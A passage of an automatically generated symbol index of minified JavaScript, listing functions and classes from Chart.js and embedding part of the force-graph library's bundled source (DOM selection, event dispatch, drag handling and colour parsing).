"bn"}, {"kind": "function", "line": 13, "name": "a"}, {"kind": "function", "line": 13, "name": "l"}, {"kind": "function", "line": 13, "name": "o"}, {"kind": "function", "line": 13, "name": "e"}, {"kind": "function", "line": 13, "name": "t"}, {"kind": "function", "line": 13, "name": "p"}, {"kind": "function", "line": 13, "name": "e"}, {"kind": "function", "line": 13, "name": "s"}, {"kind": "function", "line": 13, "name": "a"}, {"kind": "function", "line": 13, "name": "e"}, {"kind": "function", "line": 13, "name": "s"}, {"kind": "function", "line": 13, "name": "s"}, {"kind": "function", "line": 13, "name": "_a"}, {"kind": "function", "line": 13, "name": "Se"}, {"kind": "function", "line": 13, "name": "s"}, {"kind": "function", "line": 13, "name": "r"}, {"kind": "function", "line": 13, "name": "i"}, {"kind": "function", "line": 13, "name": "e"}, {"kind": "function", "line": 13, "name": "d"}, {"kind": "function", "line": 13, "name": "s"}, {"kind": "function", "line": 13, "name": "e"}, {"kind": "function", "line": 13, "name": "n"}, {"kind": "function", "line": 13, "name": "o"}, {"kind": "function", "line": 13, "name": "s"}, {"kind": "function", "line": 13, "name": "n"}, {"kind": "function", "line": 13, "name": "o"}, {"kind": "function", "line": 13, "name": "y"}, {"kind": "function", "line": 13, "name": "g"}, {"kind": "function", "line": 13, "name": "p"}, {"doc": "! Chart.js v4.5.1 https://www.chartjs.org (c) 2025 Chart.js Contributors Released under the MIT License", "kind": "class", "line": 7, "name": "xt"}, {"kind": "class", "line": 13, "name": "Jt"}, {"kind": "class", "line": 13, "name": "de"}, {"kind": "class", "line": 13, "name": "hs"}, {"kind": "class", "line": 13, "name": "cs"}, {"kind": "class", "line": 13, "name": "Ss"}, {"kind": "class", "line": 13, "name": "As"}, {"kind": "class", "line": 13, "name": "Ts"}, {"kind": "class", "line": 13, "name": "js"}, {"kind": "class", "line": 13, "name": "tn"}, {"kind": "class", "line": 13, "name": "en"}, {"kind": "class", "line": 13, "name": "does"}, {"kind": "class", "line": 13, "name": "sn"}, {"kind": "class", "line": 13, "name": "on"}, {"kind": "class", "line": 13, "name": "_n"}, {"kind": "class", "line": 13, "name": "Tn"}, {"kind": "class", "line": 13, "name": "Rn"}, {"kind": "class", "line": 13, "name": "Yn"}, {"kind": "class", "line": 13, "name": "extends"}, {"kind": "class", "line": 13, "name": "extends"}, {"kind": "class", "line": 13, "name": "extends"}, {"kind": "class", "line": 13, "name": "extends"}, {"kind": "class", "line": 13, "name": "extends"}, {"kind": "class", "line": 13, "name": "extends"}, {"kind": "class", "line": 13, "name": "oo"}, {"kind": "class", "line": 13, "name": "extends"}, {"kind": "class", "line": 13, "name": "extends"}, {"kind": "class", "line": 13, "name": "extends"}, {"kind": "class", "line": 13, "name": "bo"}, {"kind": "class", "line": 13, "name": "_o"}, {"kind": "class", "line": 13, "name": "So"}, {"kind": "class", "line": 13, "name": "Ro"}, {"kind": "class", "line": 13, "name": "Ho"}, {"kind": "class", "line": 13, "name": "extends"}, {"kind": "class", "line": 13, "name": "extends"}, {"kind": "class", "line": 13, "name": "ca"}, {"kind": "class", "line": 13, "name": "ya"}, {"kind": "class", "line": 13, "name": "wa"}, {"kind": "class", "line": 13, "name": "Wa"}]}, {"doc": "Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph !function(t,n){\"object\"==typeof exports&&\"undefined\"!=typeof module?module.exports=n():\"function\"==typeof define&&define.amd?define(n):(t=\"undefined\"!=typeof globalThis?globalThis:t||self).ForceGraph=n()}(this,(function(){\"use strict\";function n(t,n,r){if(e())return Reflect.construct.apply(null,arguments);var i=[null];i.push.apply(i,n);var o=new(t.bind.apply(t,i));return r&&s(o,r.prototype),o}function e(){try{var t=!Boolean.prototype.valueOf.call(Reflect.construct(Boolean,[],(function(){})))}catch(t){}return(e=function(){return!!t})()}function r(t,n){var e=Object.keys(t);if(Object.getOwnPropertySymbols){var r=Object.getOwnPropertySymbols(t);n&&(r=r.filter((function(n){return Object.getOwnPropertyDescriptor(t,n).enumerable}))),e.push.apply(e,r)}return e}function i(t){for(var n=1;n<arguments.length;n++){var e=null!=arguments[n]?arguments[n]:{};n%2?r(Object(e),!0).forEach((function(n){u(t,n,e[n])})):Object.getOwnPropertyDescriptors?Object.defineProperties(t,Object.getOwnPropertyDescriptors(e)):r(Object(e)).forEach((function(n){Object.defineProperty(t,n,Object.getOwnPropertyDescriptor(e,n))}))}return t}function o(t){var n=function(t,n){if(\"object\"!=typeof t||!t)return t;var e=t[Symbol.toPrimitive];if(void 0!==e){var r=e.call(t,n||\"default\");if(\"object\"!=typeof r)return r;throw new TypeError(\"@@toPrimitive must return a primitive value.\")}return(\"string\"===n?String:Number)(t)}(t,\"string\");return\"symbol\"==typeof n?n:String(n)}function a(t){return a=\"function\"==typeof Symbol&&\"symbol\"==typeof Symbol.iterator?function(t){return typeof t}:function(t){return t&&\"function\"==typeof Symbol&&t.constructor===Symbol&&t!==Symbol.prototype?\"symbol\":typeof t},a(t)}function u(t,n,e){return(n=o(n))in t?Object.defineProperty(t,n,{value:e,enumerable:!0,configurable:!0,writable:!0}):t[n]=e,t}function s(t,n){return s=Object.setPrototypeOf?Object.setPrototypeOf.bind():function(t,n){return t.__proto__=n,t},s(t,n)}function l(t,n){return function(t){if(Array.isArray(t))return t}(t)||function(t,n){var e=null==t?null:\"undefined\"!=typeof Symbol&&t[Symbol.iterator]||t[\"@@iterator\"];if(null!=e){var r,i,o,a,u=[],s=!0,l=!1;try{if(o=(e=e.call(t)).next,0===n){if(Object(e)!==e)return;s=!1}else for(;!(s=(r=o.call(e)).done)&&(u.push(r.value),u.length!==n);s=!0);}catch(t){l=!0,i=t}finally{try{if(!s&&null!=e.return&&(a=e.return(),Object(a)!==a))return}finally{if(l)throw i}}return u}}(t,n)||h(t,n)||function(){throw new TypeError(\"Invalid attempt to destructure non-iterable instance.\\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.\")}()}function c(t){return function(t){if(Array.isArray(t))return f(t)}(t)||function(t){if(\"undefined\"!=typeof Symbol&&null!=t[Symbol.iterator]||null!=t[\"@@iterator\"])return Array.from(t)}(t)||h(t)||function(){throw new TypeError(\"Invalid attempt to spread non-iterable instance.\\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.\")}()}function h(t,n){if(t){if(\"string\"==typeof t)return f(t,n);var e=Object.prototype.toString.call(t).slice(8,-1);return\"Object\"===e&&t.constructor&&(e=t.constructor.name),\"Map\"===e||\"Set\"===e?Array.from(t):\"Arguments\"===e||/^(?:Ui|I)nt(?:8|16|32)(?:Clamped)?Array$/.test(e)?f(t,n):void 0}}function f(t,n){(null==n||n>t.length)&&(n=t.length);for(var e=0,r=new Array(n);e<n;e++)r[e]=t[e];return r}!function(t,n){void 0===n&&(n={});var e=n.insertAt;if(t&&\"undefined\"!=typeof document){var r=document.head||document.getElementsByTagName(\"head\")[0],i=document.createElement(\"style\");i.type=\"text/css\",\"top\"===e&&r.firstChild?r.insertBefore(i,r.firstChild):r.appendChild(i),i.styleSheet?i.styleSheet.cssText=t:i.appendChild(document.createTextNode(t))}}(\".force-graph-container canvas {\\n  display: block;\\n  user-select: none;\\n  outline: none;\\n  -webkit-tap-highlight-color: transparent;\\n}\\n\\n.force-graph-container .graph-tooltip {\\n  position: absolute;\\n  top: 0;\\n  font-family: sans-serif;\\n  font-size: 16px;\\n  padding: 4px;\\n  border-radius: 3px;\\n  color: #eee;\\n  background: rgba(0,0,0,0.65);\\n  visibility: hidden; /* by default */\\n}\\n\\n.force-graph-container .clickable {\\n  cursor: pointer;\\n}\\n\\n.force-graph-container .grabbable {\\n  cursor: move;\\n  cursor: grab;\\n  cursor: -moz-grab;\\n  cursor: -webkit-grab;\\n}\\n\\n.force-graph-container .grabbable:active {\\n  cursor: grabbing;\\n  cursor: -moz-grabbing;\\n  cursor: -webkit-grabbing;\\n}\\n\");var d=\"http://www.w3.org/1999/xhtml\",p={svg:\"http://www.w3.org/2000/svg\",xhtml:d,xlink:\"http://www.w3.org/1999/xlink\",xml:\"http://www.w3.org/XML/1998/namespace\",xmlns:\"http://www.w3.org/2000/xmlns/\"};function g(t){var n=t+=\"\",e=n.indexOf(\":\");return e>=0&&\"xmlns\"!==(n=t.slice(0,e))&&(t=t.slice(e+1)),p.hasOwnProperty(n)?{space:p[n],local:t}:t}function y(t){return function(){var n=this.ownerDocument,e=this.namespaceURI;return e===d&&n.documentElement.namespaceURI===d?n.createElement(t):n.createElementNS(e,t)}}function v(t){return function(){return this.ownerDocument.createElementNS(t.space,t.local)}}function _(t){var n=g(t);return(n.local?v:y)(n)}function m(){}function x(t){return null==t?m:function(){return this.querySelector(t)}}function b(){return[]}function w(t){return null==t?b:function(){return this.querySelectorAll(t)}}function k(t){return function(){return function(t){return null==t?[]:Array.isArray(t)?t:Array.from(t)}(t.apply(this,arguments))}}function M(t){return function(){return this.matches(t)}}function z(t){return function(n){return n.matches(t)}}var A=Array.prototype.find;function S(){return this.firstElementChild}var C=Array.prototype.filter;function E(){return Array.from(this.children)}function O(t){return new Array(t.length)}function N(t,n){this.ownerDocument=t.ownerDocument,this.namespaceURI=t.namespaceURI,this._next=null,this._parent=t,this.__data__=n}function P(t,n,e,r,i,o){for(var a,u=0,s=n.length,l=o.length;u<l;++u)(a=n[u])?(a.__data__=o[u],r[u]=a):e[u]=new N(t,o[u]);for(;u<s;++u)(a=n[u])&&(i[u]=a)}function j(t,n,e,r,i,o,a){var u,s,l,c=new Map,h=n.length,f=o.length,d=new Array(h);for(u=0;u<h;++u)(s=n[u])&&(d[u]=l=a.call(s,s.__data__,u,n)+\"\",c.has(l)?i[u]=s:c.set(l,s));for(u=0;u<f;++u)l=a.call(t,o[u],u,o)+\"\",(s=c.get(l))?(r[u]=s,s.__data__=o[u],c.delete(l)):e[u]=new N(t,o[u]);for(u=0;u<h;++u)(s=n[u])&&c.get(d[u])===s&&(i[u]=s)}function T(t){return t.__data__}function R(t){return\"object\"==typeof t&&\"length\"in t?t:Array.from(t)}function D(t,n){return t<n?-1:t>n?1:t>=n?0:NaN}function I(t){return function(){this.removeAttribute(t)}}function U(t){return function(){this.removeAttributeNS(t.space,t.local)}}function F(t,n){return function(){this.setAttribute(t,n)}}function L(t,n){return function(){this.setAttributeNS(t.space,t.local,n)}}function q(t,n){return function(){var e=n.apply(this,arguments);null==e?this.removeAttribute(t):this.setAttribute(t,e)}}function B(t,n){return function(){var e=n.apply(this,arguments);null==e?this.removeAttributeNS(t.space,t.local):this.setAttributeNS(t.space,t.local,e)}}function $(t){return t.ownerDocument&&t.ownerDocument.defaultView||t.document&&t||t.defaultView}function H(t){return function(){this.style.removeProperty(t)}}function V(t,n,e){return function(){this.style.setProperty(t,n,e)}}function X(t,n,e){return function(){var r=n.apply(this,arguments);null==r?this.style.removeProperty(t):this.style.setProperty(t,r,e)}}function G(t,n){return t.style.getPropertyValue(n)||$(t).getComputedStyle(t,null).getPropertyValue(n)}function Y(t){return function(){delete this[t]}}function W(t,n){return function(){this[t]=n}}function Z(t,n){return function(){var e=n.apply(this,arguments);null==e?delete this[t]:this[t]=e}}function Q(t){return t.trim().split(/^|\\s+/)}function K(t){return t.classList||new J(t)}function J(t){this._node=t,this._names=Q(t.getAttribute(\"class\")||\"\")}function tt(t,n){for(var e=K(t),r=-1,i=n.length;++r<i;)e.add(n[r])}function nt(t,n){for(var e=K(t),r=-1,i=n.length;++r<i;)e.remove(n[r])}function et(t){return function(){tt(this,t)}}function rt(t){return function(){nt(this,t)}}function it(t,n){return function(){(n.apply(this,arguments)?tt:nt)(this,t)}}function ot(){this.textContent=\"\"}function at(t){return function(){this.textContent=t}}function ut(t){return function(){var n=t.apply(this,arguments);this.textContent=null==n?\"\":n}}function st(){this.innerHTML=\"\"}function lt(t){return function(){this.innerHTML=t}}function ct(t){return function(){var n=t.apply(this,arguments);this.innerHTML=null==n?\"\":n}}function ht(){this.nextSibling&&this.parentNode.appendChild(this)}function ft(){this.previousSibling&&this.parentNode.insertBefore(this,this.parentNode.firstChild)}function dt(){return null}function pt(){var t=this.parentNode;t&&t.removeChild(this)}function gt(){var t=this.cloneNode(!1),n=this.parentNode;return n?n.insertBefore(t,this.nextSibling):t}function yt(){var t=this.cloneNode(!0),n=this.parentNode;return n?n.insertBefore(t,this.nextSibling):t}function vt(t){return function(){var n=this.__on;if(n){for(var e,r=0,i=-1,o=n.length;r<o;++r)e=n[r],t.type&&e.type!==t.type||e.name!==t.name?n[++i]=e:this.removeEventListener(e.type,e.listener,e.options);++i?n.length=i:delete this.__on}}}function _t(t,n,e){return function(){var r,i=this.__on,o=function(t){return function(n){t.call(this,n,this.__data__)}}(n);if(i)for(var a=0,u=i.length;a<u;++a)if((r=i[a]).type===t.type&&r.name===t.name)return this.removeEventListener(r.type,r.listener,r.options),this.addEventListener(r.type,r.listener=o,r.options=e),void(r.value=n);this.addEventListener(t.type,o,e),r={type:t.type,name:t.name,value:n,listener:o,options:e},i?i.push(r):this.__on=[r]}}function mt(t,n,e){var r=$(t),i=r.CustomEvent;\"function\"==typeof i?i=new i(n,e):(i=r.document.createEvent(\"Event\"),e?(i.initEvent(n,e.bubbles,e.cancelable),i.detail=e.detail):i.initEvent(n,!1,!1)),t.dispatchEvent(i)}function xt(t,n){return function(){return mt(this,t,n)}}function bt(t,n){return function(){return mt(this,t,n.apply(this,arguments))}}N.prototype={constructor:N,appendChild:function(t){return this._parent.insertBefore(t,this._next)},insertBefore:function(t,n){return this._parent.insertBefore(t,n)},querySelector:function(t){return this._parent.querySelector(t)},querySelectorAll:function(t){return this._parent.querySelectorAll(t)}},J.prototype={add:function(t){this._names.indexOf(t)<0&&(this._names.push(t),this._node.setAttribute(\"class\",this._names.join(\" \")))},remove:function(t){var n=this._names.indexOf(t);n>=0&&(this._names.splice(n,1),this._node.setAttribute(\"class\",this._names.join(\" \")))},contains:function(t){return this._names.indexOf(t)>=0}};var wt=[null];function kt(t,n){this._groups=t,this._parents=n}function Mt(){return new kt([[document.documentElement]],wt)}function zt(t){return\"string\"==typeof t?new kt([[document.querySelector(t)]],[document.documentElement]):new kt([[t]],wt)}function At(t,n){if(t=function(t){let n;for(;n=t.sourceEvent;)t=n;return t}(t),void 0===n&&(n=t.currentTarget),n){var e=n.ownerSVGElement||n;if(e.createSVGPoint){var r=e.createSVGPoint();return r.x=t.clientX,r.y=t.clientY,[(r=r.matrixTransform(n.getScreenCTM().inverse())).x,r.y]}if(n.getBoundingClientRect){var i=n.getBoundingClientRect();return[t.clientX-i.left-n.clientLeft,t.clientY-i.top-n.clientTop]}}return[t.pageX,t.pageY]}kt.prototype=Mt.prototype={constructor:kt,select:function(t){\"function\"!=typeof t&&(t=x(t));for(var n=this._groups,e=n.length,r=new Array(e),i=0;i<e;++i)for(var o,a,u=n[i],s=u.length,l=r[i]=new Array(s),c=0;c<s;++c)(o=u[c])&&(a=t.call(o,o.__data__,c,u))&&(\"__data__\"in o&&(a.__data__=o.__data__),l[c]=a);return new kt(r,this._parents)},selectAll:function(t){t=\"function\"==typeof t?k(t):w(t);for(var n=this._groups,e=n.length,r=[],i=[],o=0;o<e;++o)for(var a,u=n[o],s=u.length,l=0;l<s;++l)(a=u[l])&&(r.push(t.call(a,a.__data__,l,u)),i.push(a));return new kt(r,i)},selectChild:function(t){return this.select(null==t?S:function(t){return function(){return A.call(this.children,t)}}(\"function\"==typeof t?t:z(t)))},selectChildren:function(t){return this.selectAll(null==t?E:function(t){return function(){return C.call(this.children,t)}}(\"function\"==typeof t?t:z(t)))},filter:function(t){\"function\"!=typeof t&&(t=M(t));for(var n=this._groups,e=n.length,r=new Array(e),i=0;i<e;++i)for(var o,a=n[i],u=a.length,s=r[i]=[],l=0;l<u;++l)(o=a[l])&&t.call(o,o.__data__,l,a)&&s.push(o);return new kt(r,this._parents)},data:function(t,n){if(!arguments.length)return Array.from(this,T);var e=n?j:P,r=this._parents,i=this._groups;\"function\"!=typeof t&&(t=function(t){return function(){return t}}(t));for(var o=i.length,a=new Array(o),u=new Array(o),s=new Array(o),l=0;l<o;++l){var c=r[l],h=i[l],f=h.length,d=R(t.call(c,c&&c.__data__,l,r)),p=d.length,g=u[l]=new Array(p),y=a[l]=new Array(p);e(c,h,g,y,s[l]=new Array(f),d,n);for(var v,_,m=0,x=0;m<p;++m)if(v=g[m]){for(m>=x&&(x=m+1);!(_=y[x])&&++x<p;);v._next=_||null}}return(a=new kt(a,r))._enter=u,a._exit=s,a},enter:function(){return new kt(this._enter||this._groups.map(O),this._parents)},exit:function(){return new kt(this._exit||this._groups.map(O),this._parents)},join:function(t,n,e){var r=this.enter(),i=this,o=this.exit();return\"function\"==typeof t?(r=t(r))&&(r=r.selection()):r=r.append(t+\"\"),null!=n&&(i=n(i))&&(i=i.selection()),null==e?o.remove():e(o),r&&i?r.merge(i).order():i},merge:function(t){for(var n=t.selection?t.selection():t,e=this._groups,r=n._groups,i=e.length,o=r.length,a=Math.min(i,o),u=new Array(i),s=0;s<a;++s)for(var l,c=e[s],h=r[s],f=c.length,d=u[s]=new Array(f),p=0;p<f;++p)(l=c[p]||h[p])&&(d[p]=l);for(;s<i;++s)u[s]=e[s];return new kt(u,this._parents)},selection:function(){return this},order:function(){for(var t=this._groups,n=-1,e=t.length;++n<e;)for(var r,i=t[n],o=i.length-1,a=i[o];--o>=0;)(r=i[o])&&(a&&4^r.compareDocumentPosition(a)&&a.parentNode.insertBefore(r,a),a=r);return this},sort:function(t){function n(n,e){return n&&e?t(n.__data__,e.__data__):!n-!e}t||(t=D);for(var e=this._groups,r=e.length,i=new Array(r),o=0;o<r;++o){for(var a,u=e[o],s=u.length,l=i[o]=new Array(s),c=0;c<s;++c)(a=u[c])&&(l[c]=a);l.sort(n)}return new kt(i,this._parents).order()},call:function(){var t=arguments[0];return arguments[0]=this,t.apply(null,arguments),this},nodes:function(){return Array.from(this)},node:function(){for(var t=this._groups,n=0,e=t.length;n<e;++n)for(var r=t[n],i=0,o=r.length;i<o;++i){var a=r[i];if(a)return a}return null},size:function(){let t=0;for(const n of this)++t;return t},empty:function(){return!this.node()},each:function(t){for(var n=this._groups,e=0,r=n.length;e<r;++e)for(var i,o=n[e],a=0,u=o.length;a<u;++a)(i=o[a])&&t.call(i,i.__data__,a,o);return this},attr:function(t,n){var e=g(t);if(arguments.length<2){var r=this.node();return e.local?r.getAttributeNS(e.space,e.local):r.getAttribute(e)}return this.each((null==n?e.local?U:I:\"function\"==typeof n?e.local?B:q:e.local?L:F)(e,n))},style:function(t,n,e){return arguments.length>1?this.each((null==n?H:\"function\"==typeof n?X:V)(t,n,null==e?\"\":e)):G(this.node(),t)},property:function(t,n){return arguments.length>1?this.each((null==n?Y:\"function\"==typeof n?Z:W)(t,n)):this.node()[t]},classed:function(t,n){var e=Q(t+\"\");if(arguments.length<2){for(var r=K(this.node()),i=-1,o=e.length;++i<o;)if(!r.contains(e[i]))return!1;return!0}return this.each((\"function\"==typeof n?it:n?et:rt)(e,n))},text:function(t){return arguments.length?this.each(null==t?ot:(\"function\"==typeof t?ut:at)(t)):this.node().textContent},html:function(t){return arguments.length?this.each(null==t?st:(\"function\"==typeof t?ct:lt)(t)):this.node().innerHTML},raise:function(){return this.each(ht)},lower:function(){return this.each(ft)},append:function(t){var n=\"function\"==typeof t?t:_(t);return this.select((function(){return this.appendChild(n.apply(this,arguments))}))},insert:function(t,n){var e=\"function\"==typeof t?t:_(t),r=null==n?dt:\"function\"==typeof n?n:x(n);return this.select((function(){return this.insertBefore(e.apply(this,arguments),r.apply(this,arguments)||null)}))},remove:function(){return this.each(pt)},clone:function(t){return this.select(t?yt:gt)},datum:function(t){return arguments.length?this.property(\"__data__\",t):this.node().__data__},on:function(t,n,e){var r,i,o=function(t){return t.trim().split(/^|\\s+/).map((function(t){var n=\"\",e=t.indexOf(\".\");return e>=0&&(n=t.slice(e+1),t=t.slice(0,e)),{type:t,name:n}}))}(t+\"\"),a=o.length;if(!(arguments.length<2)){for(u=n?_t:vt,r=0;r<a;++r)this.each(u(o[r],n,e));return this}var u=this.node().__on;if(u)for(var s,l=0,c=u.length;l<c;++l)for(r=0,s=u[l];r<a;++r)if((i=o[r]).type===s.type&&i.name===s.name)return s.value},dispatch:function(t,n){return this.each((\"function\"==typeof n?bt:xt)(t,n))},[Symbol.iterator]:function*(){for(var t=this._groups,n=0,e=t.length;n<e;++n)for(var r,i=t[n],o=0,a=i.length;o<a;++o)(r=i[o])&&(yield r)}};var St={value:()=>{}};function Ct(){for(var t,n=0,e=arguments.length,r={};n<e;++n){if(!(t=arguments[n]+\"\")||t in r||/[\\s.]/.test(t))throw new Error(\"illegal type: \"+t);r[t]=[]}return new Et(r)}function Et(t){this._=t}function Ot(t,n){for(var e,r=0,i=t.length;r<i;++r)if((e=t[r]).name===n)return e.value}function Nt(t,n,e){for(var r=0,i=t.length;r<i;++r)if(t[r].name===n){t[r]=St,t=t.slice(0,r).concat(t.slice(r+1));break}return null!=e&&t.push({name:n,value:e}),t}Et.prototype=Ct.prototype={constructor:Et,on:function(t,n){var e,r,i=this._,o=(r=i,(t+\"\").trim().split(/^|\\s+/).map((function(t){var n=\"\",e=t.indexOf(\".\");if(e>=0&&(n=t.slice(e+1),t=t.slice(0,e)),t&&!r.hasOwnProperty(t))throw new Error(\"unknown type: \"+t);return{type:t,name:n}}))),a=-1,u=o.length;if(!(arguments.length<2)){if(null!=n&&\"function\"!=typeof n)throw new Error(\"invalid callback: \"+n);for(;++a<u;)if(e=(t=o[a]).type)i[e]=Nt(i[e],t.name,n);else if(null==n)for(e in i)i[e]=Nt(i[e],t.name,null);return this}for(;++a<u;)if((e=(t=o[a]).type)&&(e=Ot(i[e],t.name)))return e},copy:function(){var t={},n=this._;for(var e in n)t[e]=n[e].slice();return new Et(t)},call:function(t,n){if((e=arguments.length-2)>0)for(var e,r,i=new Array(e),o=0;o<e;++o)i[o]=arguments[o+2];if(!this._.hasOwnProperty(t))throw new Error(\"unknown type: \"+t);for(o=0,e=(r=this._[t]).length;o<e;++o)r[o].value.apply(n,i)},apply:function(t,n,e){if(!this._.hasOwnProperty(t))throw new Error(\"unknown type: \"+t);for(var r=this._[t],i=0,o=r.length;i<o;++i)r[i].value.apply(n,e)}};const Pt={passive:!1},jt={capture:!0,passive:!1};function Tt(t){t.stopImmediatePropagation()}function Rt(t){t.preventDefault(),t.stopImmediatePropagation()}function Dt(t){var n=t.document.documentElement,e=zt(t).on(\"dragstart.drag\",Rt,jt);\"onselectstart\"in n?e.on(\"selectstart.drag\",Rt,jt):(n.__noselect=n.style.MozUserSelect,n.style.MozUserSelect=\"none\")}function It(t,n){var e=t.document.documentElement,r=zt(t).on(\"dragstart.drag\",null);n&&(r.on(\"click.drag\",Rt,jt),setTimeout((function(){r.on(\"click.drag\",null)}),0)),\"onselectstart\"in e?r.on(\"selectstart.drag\",null):(e.style.MozUserSelect=e.__noselect,delete e.__noselect)}var Ut=t=>()=>t;function Ft(t,{sourceEvent:n,subject:e,target:r,identifier:i,active:o,x:a,y:u,dx:s,dy:l,dispatch:c}){Object.defineProperties(this,{type:{value:t,enumerable:!0,configurable:!0},sourceEvent:{value:n,enumerable:!0,configurable:!0},subject:{value:e,enumerable:!0,configurable:!0},target:{value:r,enumerable:!0,configurable:!0},identifier:{value:i,enumerable:!0,configurable:!0},active:{value:o,enumerable:!0,configurable:!0},x:{value:a,enumerable:!0,configurable:!0},y:{value:u,enumerable:!0,configurable:!0},dx:{value:s,enumerable:!0,configurable:!0},dy:{value:l,enumerable:!0,configurable:!0},_:{value:c}})}function Lt(t){return!t.ctrlKey&&!t.button}function qt(){return this.parentNode}function Bt(t,n){return null==n?{x:t.x,y:t.y}:n}function $t(){return navigator.maxTouchPoints||\"ontouchstart\"in this}function Ht(t,n,e){t.prototype=n.prototype=e,e.constructor=t}function Vt(t,n){var e=Object.create(t.prototype);for(var r in n)e[r]=n[r];return e}function Xt(){}Ft.prototype.on=function(){var t=this._.on.apply(this._,arguments);return t===this._?this:t};var Gt=.7,Yt=1/Gt,Wt=\"\\\\s*([+-]?\\\\d+)\\\\s*\",Zt=\"\\\\s*([+-]?(?:\\\\d*\\\\.)?\\\\d+(?:[eE][+-]?\\\\d+)?)\\\\s*\",Qt=\"\\\\s*([+-]?(?:\\\\d*\\\\.)?\\\\d+(?:[eE][+-]?\\\\d+)?)%\\\\s*\",Kt=/^#([0-9a-f]{3,8})$/,Jt=new RegExp(`^rgb\\\\(${Wt},${Wt},${Wt}\\\\)$`),tn=new RegExp(`^rgb\\\\(${Qt},${Qt},${Qt}\\\\)$`),nn=new RegExp(`^rgba\\\\(${Wt},${Wt},${Wt},${Zt}\\\\)$`),en=new RegExp(`^rgba\\\\(${Qt},${Qt},${Qt},${Zt}\\\\)$`),rn=new RegExp(`^hsl\\\\(${Zt},${Qt},${Qt}\\\\)$`),on=new RegExp(`^hsla\\\\(${Zt},${Qt},${Qt},${Zt}\\\\)$`),an={aliceblue:15792383,antiquewhite:16444375,aqua:65535,aquamarine:8388564,azure:15794175,beige:16119260,bisque:16770244,black:0,blanchedalmond:16772045,blue:255,blueviolet:9055202,brown:10824234,burlywood:14596231,cadetblue:6266528,chartreuse:8388352,chocolate:13789470,coral:16744272,cornflowerblue:6591981,cornsilk:16775388,crimson:14423100,cyan:65535,darkblue:139,darkcyan:35723,darkgoldenrod:12092939,darkgray:11119017,darkgreen:25600,darkgrey:11119017,darkkhaki:12433259,darkmagenta:9109643,darkolivegreen:5597999,darkorange:16747520,darkorchid:10040012,darkred:9109504,darksalmon:15308410,darkseagreen:9419919,darkslateblue:4734347,darkslategray:3100495,darkslategrey:3100495,darkturquoise:52945,darkviolet:9699539,deeppink:16716947,deepskyblue:49151,dimgray:6908265,dimgrey:6908265,dodgerblue:2003199,firebrick:11674146,floralwhite:16775920,forestgreen:2263842,fuchsia:16711935,gainsboro:14474460,ghostwhite:16316671,gold:16766720,goldenrod:14329120,gray:8421504,green:32768,greenyellow:11403055,grey:8421504,honeydew:15794160,hotpink:16738740,indianred:13458524,indigo:4915330,ivory:16777200,khaki:15787660,lavender:15132410,lavenderblush:16773365,lawngreen:8190976,lemonchiffon:16775885,lightblue:11393254,lightcoral:15761536,lightcyan:14745599,lightgoldenrodyellow:16448210,lightgray:13882323,lightgreen:9498256,lightgrey:13882323,lightpink:16758465,lightsalmon:16752762,lightseagreen:2142890,lightskyblue:8900346,lightslategray:7833753,lightslategrey:7833753,lightsteelblue:11584734,lightyellow:16777184,lime:65280,limegreen:3329330,linen:16445670,magenta:16711935,maroon:8388608,mediumaquamarine:6737322,mediumblue:205,mediumorchid:12211667,mediumpurple:9662683,mediumseagreen:3978097,mediumslateblue:8087790,mediumspringgreen:64154,mediumturquoise:4772300,mediumvioletred:13047173,midnightblue:1644912,mintcream:16121850,mistyrose:16770273,moccasin:16770229,navajowhite:16768685,navy:128,oldlace:16643558,olive:8421376,olivedrab:7048739,orange:16753920,orangered:16729344,orchid:14315734,palegoldenrod:15657130,palegreen:10025880,paleturquoise:11529966,palevioletred:14381203,papayawhip:16773077,peachpuff:16767673,peru:13468991,pink:16761035,plum:14524637,powderblue:11591910,purple:8388736,rebeccapurple:6697881,red:16711680,rosybrown:12357519,royalblue:4286945,saddlebrown:9127187,salmon:16416882,sandybrown:16032864,seagreen:3050327,seashell:16774638,sienna:10506797,silver:12632256,skyblue:8900331,slateblue:6970061,slategray:7372944,slategrey:7372944,snow:16775930,springgreen:65407,steelblue:4620980,tan:13808780,teal:32896,thistle:14204888,tomato:16737095,turquoise:4251856,violet:15631086,wheat:16113331,white:16777215,whitesmoke:16119285,yellow:16776960,yellowgreen:10145074};function un(){return this.rgb().formatHex()}function sn(){return this.rgb().formatRgb()}function ln(t){var n,e;return t=(t+\"\").trim().toLowerCase(),(n=Kt.exec(t))?(e=n[1].length,n=parseInt(n[1],16),6===e?cn(n):3===e?new dn(n>>8&15|n>>4&240,n>>4&15|240&n,(15&n)<<4|15&n,1):8===e?hn(n>>24&255,n>>16&255,n>>8&255,(255&n)/255):4===e?hn(n>>12&15|n>>8&240,n>>8&15|n>>4&240,n>>4&15|240&n,((15&n)<<4|15&n)/255):null):(n=Jt.exec(t))?new dn(n[1],n[2],n[3],1):(n=tn.exec(t))?new dn(255*n[1]/100,255*n[2]/100,255*n[3]/100,1):(n=nn.exec(t))?hn(n[1],n[2],n[3],n[4]):(n=en.exec(t))?hn(255*n[1]/100,255*n[2]/100,255*n[3]/100,n[4]):(n=rn.exec(t))?mn(n[1],n[2]/100,n[3]/100,1):(n=on.exec(t))?mn(n[1],n[2]/100,n[3]/100,n[4]):an.hasOwnProperty(t)?cn(an[t]):\"transparent\"===t?new dn(NaN,NaN,NaN,0):null}function cn(t){return new dn(t>>16&255,t>>8&255,255&t,1)}function hn(t,n,e,r){return r<=0&&(t=n=e=NaN),new dn(t,n,e,r)}function fn(t,n,e,r){return 1===arguments.length?((i=t)instanceof Xt||(i=ln(i)),i?new dn((i=i.rgb()).r,i.g,i.b,i.opacity):new dn):new dn(t,n,e,null==r?1:r);var i}function dn(t,n,e,r){this.r=+t,this.g=+n,this.b=+e,this.opacity=+r}function pn(){return`#${_n(this.r)}${_n(this.g)}${_n(this.b)}`}function gn(){const t=yn(this.opacity);return`${1===t?\"rgb(\":\"rgba(\"}${vn(this.r)}, ${vn(this.g)}, ${vn(this.b)}${1===t?\")\":`, ${t})`}`}function yn(t){return isNaN(t)?1:Math.max(0,Math.min(1,t))}function vn(t){return Math.max(0,Math.min(255,Math.round(t)||0))}function _n(t){return((t=vn(t))<16?\"0\":\"\")+t.toString(16)}function mn(t,n,e,r){return r<=0?t=n=e=NaN:e<=0||e>=1?t=n=NaN:n<=0&&(t=NaN),new bn(t,n,e,r)}function xn(t){if(t instanceof bn)return new 